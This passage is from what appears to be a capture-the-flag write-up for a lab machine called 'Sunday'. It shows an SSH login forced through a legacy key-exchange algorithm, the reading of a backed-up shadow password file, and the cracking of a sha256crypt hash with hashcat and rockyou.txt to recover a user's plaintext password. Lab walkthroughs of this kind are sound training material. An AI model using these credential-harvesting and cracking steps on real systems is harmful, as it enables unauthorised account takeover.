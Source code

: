As you can see it gives us a list of key offerings the device has, that's very helpful, I selected `diffie-hellman-group1-sha1` as the key and used the `-okexAlgorithms` flag from the SSH manpages.

```
ssh -okexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p 22022
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
RSA key fingerprint is SHA256:TmRO9yKIj8Rr/KJIZFXEVswWZB/hic/jAHr78xGp+YU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.10.10.76]:22022' (RSA) to the list of known hosts.
Password: 
Last login: Tue Apr 24 10:48:11 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ 
```

Yay! We got a login. Now we need to work on our privilege escalation, as we saw before there is another account "sammy" so let's try and get access to that before we go for root.

### Privilege Escalation

As soon as I logged into the box I went into the top-level directory and I saw a directory called "backup" this is not a standard Linux directory so I did an `ls backup` to my surprise there were two files in this directory `agent22.backup` and `shadow.backup`, well `agent22` is the name of the user that made this box and `shadow` is well, where Linux stores passwords. Let's use `cat backup/shadow.backup` to get the contents of the file.

```
sunny@sunday:/$ cat backup/shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Oh look, we have the hash for the user `sammy`, let's use hashcat to crack this hash and get the users password, first we need to figure out what type of hash this is, we can tell from the start of the hash `$5$` by going to the [hashcat example_hashes documentation](https://hashcat.net/wiki/doku.php?id=example_hashes)if we do a `CTRL+F` for `$5$` we can find an entry for mode 7400 which is sha256crypt and right at the end it says "Unix" this is what we want so let us load this hash into hashcat to crack.

#### Shadow Hash Cracking

As mentioned, we're going to use hashcat to crack this hash and for our wordlist we're going to use `rockyou.txt` usually because in any kind of CTF/vulnerable box if there is hash cracking involved then the password will be in rockyou. You can do the hash cracking in a vm, or if you have a hash cracking machine you can do it in that, I don't have one so I always do these inside my own host.

In order to prepare the hash all I did was copy the hash from the cat output, on my Linux host did `nano sunday` to make a file, pasted the hash in the file then saved it with `ctrl+X`, then I copied that out of my VM onto my host, put it in the hashcat directory and ran `hashcat64 -m 7400 sunday rockyou.txt` waited a minute or so it and it returned back the following `$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!` so our password is `cooldude!` let's use this to login with the username `sammy`.
